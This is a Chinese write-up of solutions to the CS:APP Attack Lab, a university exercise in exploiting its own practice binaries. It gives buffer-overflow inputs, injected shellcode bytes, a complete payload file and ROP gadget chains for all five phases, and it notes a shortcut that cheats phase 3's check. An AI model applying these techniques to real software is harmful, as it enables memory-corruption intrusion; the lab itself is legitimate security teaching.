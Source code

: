 # CS:APP Attack Lab

https://csapp.cs.cmu.edu/3e/labs.html

请注意具体数值依赖于 `ctarget` 和 `rtarget` 的内容。

## 1

首先用 40 字节填满 `buf`，然后再用 `touch1` 的地址覆盖原返回地址即可。

需要注意的是，这 40 字节虽然是任意的，但不能包含 `0a`。

## 2

还是用 40 字节填满 `buf`，然后再将返回地址设置为返回地址的地址的后面，然后在返回地址的后面插入需要执行的代码。

返回地址的地址，或者说 `%rsp` 的值，可以通过 `gdb` 得到。

需要执行的代码的汇编代码为：

```
	movq $0x4a8bf816, %rdi
	pushq $0x401ccd
	ret
```

汇编得到字节码：

```
48 c7 c7 16 f8 8b 4a
68 cd 1c 40 00
c3
```

## 3

和 2 类似，只是要在代码的后面插入 cookie 字符串 `34 61 38 62 66 38 31 36 00`，然后将 `touch3` 的参数设置为这个字符串的地址。

但是，据我观察，`hexmatch` 函数中的 `random` 每次运行得到的结果是一样的，所以 `hexmatch` 中 `s` 的地址是固定的，可以传入 `s` 的地址来作弊地通过测试，`3.txt` 为：

```
/* 40 bytes */
00 01 02 03 04 05 06 07
08 09 00 0b 0c 0d 0e 0f
10 11 12 13 14 15 16 17
18 19 1a 1b 1c 1d 1e 1f
20 21 22 23 24 25 26 27

/* address of the injected instructions */
58 a9 64 55 00 00 00 00

48 c7 c7 cf a8 64 55 /* movq <address of s>, %rdi */
68 f2 1d 40 00       /* pushq <address of touch3> */
c3                   /* ret */
```

## 4

需要修改 `%rdi`，所以需要 `movq %rxx, %rdi` 或 `popq %rdi`。

在 farm 中没有找到 `popq %rdi` 的字节码 `5f`，但能找到 `48 89 c7` (位于 `addval_130` 或 `getval_303`) 即 `movq %rax, %rdi`，所以还需要 `popq %rax`，即 `58` (位于 `setval_419` 或 `addval_454`)。

所以目标是执行效果类似下面汇编的指令：

```
test:
	ret # gadget1

gadget1:
	popq %rax
	ret # gadget2

gadget2:
	movq %rax, %rdi
	ret # touch2
```

这需要栈中从顶开始依次是 `gadget1` 地址、`touch2` 参数、`gadget2` 地址、`touch2` 地址。

## 5

因为栈的地址是动态的，需要获取 `%rsp` 的值来得到 cookie 字符串的地址。

在 farm 中搜索 `movq %rsp, %rxx` 即 `48 89 e`，发现 `getval_195` 和 `getval_153` 中有 `48 89 e0 c3` 即 `movq %rsp, %rax` 然后 `ret`。

因为获取到 `%rsp` 时马上就要 `ret`，`%rsp` 指向的会是一个返回地址而不能是 cookie 字符串，所以要对这个值进行运算才能得到 cookie 字符串的地址，可以使用 farm 中的 `add_xy` 函数 (`%rdi + %rsi -> %rax`)。

farm 中还有 `movq %rax, %rdi` (`48 89 c7`), `movl %eax, %ecx` (`89 c1`), `movl %ecx, %edx` (`89 ca`)、`movl %edx, %esi` (`89 d6`)。

最后需要执行的指令是：

```
test:
    ret # g1

g1:
    movq %rsp, %rax
    ret # g2

g2:
    movq %rax, %rdi
    ret # g3

g3:
    popq %rax # 72
    ret # g4

g4:
    movl %eax, %ecx
    ret # g5

g5:
    movl %ecx, %edx
    ret # g6

g6:
    movl %edx, %esi
    ret # g7

g7:
    leaq (%rdi, %rsi), %rax
    ret # g8

g8:
    movq %rax, %rdi
    ret # touch3
```

栈中从顶开始依次为 `g1`、`g2`、`g3`、`$72`、`g4`、`g5`、`g6`、`g7`、`g8`、`touch3`、cookie string。

P.S. 一开始我以为只能使用 Figure 3 中给出编码的那些指令，想了很久，后来才意识到表中给出编码是为了改变原指令的语义，如果使用原语义的话还有其他指令 (`lea`) 可以使用。
